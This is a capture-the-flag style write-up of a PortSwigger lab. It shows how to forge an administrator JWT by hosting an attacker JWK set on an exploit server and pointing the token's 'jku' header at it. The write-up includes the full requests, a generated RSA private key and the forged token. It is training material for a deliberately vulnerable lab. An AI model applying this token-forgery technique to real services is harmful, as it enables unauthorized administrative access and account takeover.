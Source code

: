## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15564523-8805-46d9-a8a1-c018213ec6e6)

## Overview :

Instead of embedding public keys directly using the `jwk` header parameter, some servers let you use the `jku (JWK Set URL)` header parameter to reference a `JWK Set` containing the key. When verifying the signature, the server fetches the relevant key from this URL. 

> **JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`**.

Secure websites will only fetch keys from trusted domains, but we can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering. 

## Solution :

Login as wiener using the credentials provided.

These are the followin requests that contain JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cf2ef19a-5068-407b-8c2e-c139b1b4b669)

Notice that we are unauthorized to view the admin panel.

The request to admin panel has a JWT as follows,

```http
GET /admin HTTP/2
Host: 0a7300b10435c5be803e7bde00d400ec.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=eyJraWQiOiJlOGM3OTA0Yy00MzAzLTQ2MDYtYWE3Yy1iMjRkMjUwMTM2NTIiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTcyMjE2N30.H8W4JPBlwfnG0LNE0-ljV59P8dnX5ir83_QUmbxZnh4FlQ3eIFKm7_i6GPys1qE9NCsW-FYDc_KYy_dFYTDwhj_z9k0Cz7u4X_F9b9bCaYJvTE-v7k8SeTv0lBb2e7NeUX4318b9nIRLOHWgw0fcfKP_j6lhXmP-8ZL8TIt2V7w-gzNSyCMc2JAd2zB-9271dPrmcqid02u2uP4HPRC6ziwdlg3tNsubjj5lV-XvtDCScpPQRdrirLaU2UuJ8ZA9NzhZN9d_1fCvVF-UmTaY2l-GQt54hEX7Z5a_xhXHt3rVW_DttBmjzL-DXj5F3PcD5Tg8YPfq2o-Rls_wc6w4IA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
Decode the JWT using [jwt.io](https://jwt.io/)

**Header -**

```json
{
  "kid": "e8c7904c-4303-4606-aa7c-b24d25013652",
  "alg": "RS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695722167
}
```

### Create a new JWK set -

1. Goto `JWT Editor` & create a new RSA key.
```json
{
    "p": "2WfkwJlE57i1CDVdtpyzTMjAPG-vwGxMlLQupdOwGUUWKrgiwKY_xMX7BFdV3-Btune4vefRHH_jLBW1F8I3sZOfJk7k-BZNvC5zawWLaxOfBDr9KvCwRKikI08HOaWzqoe3lZIwxObVb-MGlXU5VHNzcIBYAO6i0z-n3szJWy0",
    "kty": "RSA",
    "q": "xLMj6EargijxOCGawnYcf3J1Be2O26adMyJ98UBgI5CCw3W25uuOsId9QuNaAgWeSBFor_2qsPbTqy9W8ClTLhGWzlqPNdaSw6ia4sVi_6G1CDcz7wsr8-_q3MwrCgJ6W-WZg5F4oL8vXWG-xB0xyRK70ulOhsZteiG1NY3ob3U",
    "d": "HGi8OqgFTZL2AdhJJKkbTjqDwWoVUOhciFxrtEg_-HqZkMBVuQtWajVUNDseu-OxmE89b9hvvuJamS2QNi75qMLzBuA5lfH5WruidaAzJojBgh7Q4ZPuHVENiWfbPDlpiVLbC-mpLZsT3aH6G7FG4dlpyvxgyo3MEeGT2uecSNdO9mvFqBz910LP6p6_VAcfuwdjtIwsi5StdIaa56SNiAPbO1TKkMEHURNvvznFALG5PKe1o6ja83HCMQCcDet_tTxMKx6lT5wM1X3uvS5mHalPQ_SVy3fu9w379hjMk8PuLBiHFMEWuEfoWPNoFhYxDItwJZg8UeqB5i5C3yLWZQ",
    "e": "AQAB",
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "qi": "PHngPE5PRIsRq_IRjPPfBo2X3XuTMiu91wOebsiHEv5HrJ1i-Er2kKbRPqFB-5FrMQmtar1bxAXI5cAyZYszFQ16HG_c6MV0FVYe0OVzkdGWbGPWmeGFSyxMKRRmuGmFMy37XiP4H9n6uMetzO2WomxF6KSt8wQiPCLenPPc7iA",
    "dp": "u_wV1GOzLRqNjpd2fNxqPU6oyplYQu5iGYLjgwfUEUWnsTCe_C3EngUC0_IgkwCgYMf8ulikfBwo9omemPia57VZu-okGlBOzxTrP_L_ZosEyMeo-WQ9RmD77Hv9J1-cRywrFe3etaNTkvefTcSa2ecqPnD7p3Kw4DD-mqxAv9E",
    "dq": "XR0wclSB_CvFhPzjdgrTksFsBFJgvjoxUHOTixEecbeHL2AaJVZ9RbPd6DwX770ZIKSdGjLLCtrNeMwAK9BkP_qzmRvlj2b0MwstxwwJwVmbiTgYraBsPh3k4IEGHsbthXM7KL1EjVPz6BDNbakkWDs2DrHDKqnkSVyLm76BucE",
    "n": "pwutRt51n5LAsFuqpfDf4XKp4lUmLdN2gTsJOIHG-Ye__sHmCv3kRzgXsXp-0fm00CLEsRs8o2Bhd5U6l6FSFrfeXsjtOLRgsLIUEaHEW0BUZ_B_Efljt5uCiMBaIT0Yny4Tzg9bQPpMJSLjh2D64v3xHTm4XxpI0Fx29uLxjrpzhY-W2_IuXVlnNNlcbraBB9Ayq20cfvwQdTQUQY6eluQeCzbi--2pk0nAbnPTR0WG5N14-cUzXTlfl9fvJjvTOBaJ2esqY2b0f1zoM0qYiBoRp4y48Y70MKX9_UBk0yXo-21F42H_zEOZshJked2n9cmqwn7MbqT0iYKiUFcukQ"
}
```
2. Upload the JWK set in a JSON format with the key as `keys` and value in an array as the JWK set.

```json
{
    "keys": [
         {
    "p": "2WfkwJlE57i1CDVdtpyzTMjAPG-vwGxMlLQupdOwGUUWKrgiwKY_xMX7BFdV3-Btune4vefRHH_jLBW1F8I3sZOfJk7k-BZNvC5zawWLaxOfBDr9KvCwRKikI08HOaWzqoe3lZIwxObVb-MGlXU5VHNzcIBYAO6i0z-n3szJWy0",
    "kty": "RSA",
    "q": "xLMj6EargijxOCGawnYcf3J1Be2O26adMyJ98UBgI5CCw3W25uuOsId9QuNaAgWeSBFor_2qsPbTqy9W8ClTLhGWzlqPNdaSw6ia4sVi_6G1CDcz7wsr8-_q3MwrCgJ6W-WZg5F4oL8vXWG-xB0xyRK70ulOhsZteiG1NY3ob3U",
    "d": "HGi8OqgFTZL2AdhJJKkbTjqDwWoVUOhciFxrtEg_-HqZkMBVuQtWajVUNDseu-OxmE89b9hvvuJamS2QNi75qMLzBuA5lfH5WruidaAzJojBgh7Q4ZPuHVENiWfbPDlpiVLbC-mpLZsT3aH6G7FG4dlpyvxgyo3MEeGT2uecSNdO9mvFqBz910LP6p6_VAcfuwdjtIwsi5StdIaa56SNiAPbO1TKkMEHURNvvznFALG5PKe1o6ja83HCMQCcDet_tTxMKx6lT5wM1X3uvS5mHalPQ_SVy3fu9w379hjMk8PuLBiHFMEWuEfoWPNoFhYxDItwJZg8UeqB5i5C3yLWZQ",
    "e": "AQAB",
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "qi": "PHngPE5PRIsRq_IRjPPfBo2X3XuTMiu91wOebsiHEv5HrJ1i-Er2kKbRPqFB-5FrMQmtar1bxAXI5cAyZYszFQ16HG_c6MV0FVYe0OVzkdGWbGPWmeGFSyxMKRRmuGmFMy37XiP4H9n6uMetzO2WomxF6KSt8wQiPCLenPPc7iA",
    "dp": "u_wV1GOzLRqNjpd2fNxqPU6oyplYQu5iGYLjgwfUEUWnsTCe_C3EngUC0_IgkwCgYMf8ulikfBwo9omemPia57VZu-okGlBOzxTrP_L_ZosEyMeo-WQ9RmD77Hv9J1-cRywrFe3etaNTkvefTcSa2ecqPnD7p3Kw4DD-mqxAv9E",
    "dq": "XR0wclSB_CvFhPzjdgrTksFsBFJgvjoxUHOTixEecbeHL2AaJVZ9RbPd6DwX770ZIKSdGjLLCtrNeMwAK9BkP_qzmRvlj2b0MwstxwwJwVmbiTgYraBsPh3k4IEGHsbthXM7KL1EjVPz6BDNbakkWDs2DrHDKqnkSVyLm76BucE",
    "n": "pwutRt51n5LAsFuqpfDf4XKp4lUmLdN2gTsJOIHG-Ye__sHmCv3kRzgXsXp-0fm00CLEsRs8o2Bhd5U6l6FSFrfeXsjtOLRgsLIUEaHEW0BUZ_B_Efljt5uCiMBaIT0Yny4Tzg9bQPpMJSLjh2D64v3xHTm4XxpI0Fx29uLxjrpzhY-W2_IuXVlnNNlcbraBB9Ayq20cfvwQdTQUQY6eluQeCzbi--2pk0nAbnPTR0WG5N14-cUzXTlfl9fvJjvTOBaJ2esqY2b0f1zoM0qYiBoRp4y48Y70MKX9_UBk0yXo-21F42H_zEOZshJked2n9cmqwn7MbqT0iYKiUFcukQ"
}
    ]
}
```
3. Store the JWK set.

### Modify  sign the JWT -

1. Send the */admin* request to repeater.
2. Open the `JSON Web Token` tab & make the following changes
   - Header section :
           1. Replace the current value of the `kid` parameter with the `kid` of the JWK that we just created and uploaded in the exploit server. In my case it is - `9ecb48b3-3bd6-4285-8533-4b8277941425`
           2. Add a `JKU` key with the value - `https://exploit-0ac400c304e2c5ec801a7a8801a300b8.exploit-server.net/exploit`.

   - Payload section :
           1. Change the value of `"sub": "wiener"` to `"sub": "administrator"`.
3. Now both the header & payload part looks as follows,

**Header -**

```json
{
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "alg": "RS256",
    "jku": "https://exploit-0ac400c304e2c5ec801a7a8801a300b8.exploit-server.net/exploit"
}
```

**Payload -**

```json
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1695722167
}
```
### Self sign the JWTtoken -

Click on **Sign** & enable **Don't modify header** option before clicking OK.

Now the JWT token looks as follows,

```
eyJraWQiOiI5ZWNiNDhiMy0zYmQ2LTQyODUtODUzMy00YjgyNzc5NDE0MjUiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vZXhwbG9pdC0wYWM0MDBjMzA0ZTJjNWVjODAxYTdhODgwMWEzMDBiOC5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdCJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU3MjIxNjd9.NDFj4ZHPnpa-to4ygZhtncMVOhqH8SxGPPYiFzTG8JKew2fM3QDJipS_GF1TD3E6og2J-eGEH2C2P0o9IOj64dRZNOWAtzFBNrdYfJriv9bolx3klWxOyWD3eoUoUqPR_7DMCxA6ZHs5ODywsKhv1x8aqG1svnqup6zrSJ47_jD5GLemkG4Fff27frKxB1uIx0bOiRCMOLLIkL6TZPHBhfgrSdZXwwWx8kgAGF_vRFc6KJHf2cq3ygXv-5yqwXR6dpgTgUbRYbvqLnUrhQRLa5yJkfF3_40m-3JGWy2fQ0mHOrd6k_W2IP8QMs3fVjnISLBdo3z7YAbSb9-SN6fxfQ
```

Replace the original JWT with the one we just created & forward the request to /admin.

Now we are able to access the administrator tab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b80c8da2-3edc-48eb-9581-6523ff5b043e)

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c68f283-acbb-4511-bfd5-3d424ac6928f)

   
